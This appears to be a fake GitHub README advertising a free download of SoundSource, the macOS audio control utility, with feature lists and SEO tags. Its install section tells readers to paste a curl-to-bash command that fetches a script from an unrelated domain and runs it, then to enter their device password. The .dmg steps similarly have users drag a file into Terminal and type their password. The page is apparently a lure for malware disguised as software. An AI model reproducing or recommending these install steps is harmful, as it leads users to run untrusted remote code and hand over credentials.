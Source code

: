# 🎚 SoundSource — Advanced Audio Control Panel for macOS

**SoundSource** is a powerful macOS utility that gives you precise control over your system and app-specific audio. Whether you’re balancing inputs for a podcast, adjusting volume per app, or applying system-wide equalizers, SoundSource lets you handle your Mac's sound exactly the way you want — all from the menu bar.

Perfect for musicians, creators, gamers, and anyone who needs quick access to audio tools without digging through macOS settings.

---

## ✅ Download SoundSource for macOS  
[![Download SoundSource](https://img.shields.io/badge/Download-SoundSource-darkgreen)](https://soundsource-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is SoundSource?

SoundSource is an advanced sound control utility developed by Rogue Amoeba, designed exclusively for macOS users. It allows you to manage input/output audio devices, apply per-app volume settings, and fine-tune audio quality using EQ and Audio Unit plug-ins — all without leaving the menu bar.

With support for Apple Silicon and deep macOS integration, SoundSource is the perfect companion for professionals and enthusiasts alike.

---

## ✨ Features

- 🎛 Per-app volume control and audio routing  
- 🎧 10-band system-wide equalizer with presets  
- 🔊 Real-time audio device switching  
- 🧩 Built-in support for Audio Unit effects  
- 🚫 Mute apps individually or globally  
- 🖥 Lightweight, always-on-top menu bar access  
- ⚡️ Fully optimized for Apple Silicon and macOS Sonoma  
- 🎙 Live input monitoring and effect previews  

---

## 💡 Why Use SoundSource?

- 🧠 Gives you audio control macOS doesn’t  
- 🎚 Route audio to different devices per app  
- 🎵 Apply effects globally or per application  
- 🔧 Perfect for musicians, streamers, gamers, and prosumers  
- 📡 Keeps your workflow efficient with zero clutter  

---

[![Download SoundSource](https://img.shields.io/badge/Download-SoundSource-darkgreen)](https://soundsource-download-mac.github.io/.github)

---

## 🖼 Preview

![SoundSource Screenshot 1](https://eshop.macsales.com/blog/wp-content/uploads/2023/11/SoundSource_main_interface.jpg)  
![SoundSource Screenshot 2](https://rogueamoeba.com/soundsource/images/hero.png)

---

## 📌 Tags

soundsource, sound source, mac sound source, sound source download, sound source for mac,  
soundsource windows, the sound source, a sound source, midi sound source, omnisphere soundsource,  
omnisphere soundsources, soundsource download mac, soundsource mac download,  
mac audio control tool, mac eq app, mac sound routing, app volume control mac  

